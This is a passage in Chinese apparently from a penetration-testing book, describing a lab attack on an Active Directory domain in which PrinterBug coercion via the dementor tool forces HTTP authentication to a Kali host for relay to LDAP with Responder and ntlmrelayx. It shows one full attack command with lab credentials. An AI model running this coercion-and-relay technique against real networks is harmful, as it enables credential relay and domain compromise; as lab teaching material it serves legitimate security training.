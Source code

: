 ![图 5.10 – WebClient 服务侦查](img/B18964_05_10.jpg)

图 5.10 – WebClient 服务侦查

下一步是使用强制方法触发通过 HTTP 向我们的 Kali 机器进行认证，然后将其中继到 LDAP。我们将需要一个禁用 HTTP 服务器的 Responder 和 **ntlmrelayx**：

```
python3 dementor.py -u arya.stark -d north.sevenkingdoms.local -p Needle 192.168.56.100 192.168.56.22
```

在本次练习中，我选择了 PrinterBug 作为强制方法，并通过名为 **dementor**[10] 的工具在 Linux 上实现。以下截图显示了转储域信息的结果：

![图 5.11 – 域枚举 LDAP](img/B18964_05_11.jpg)
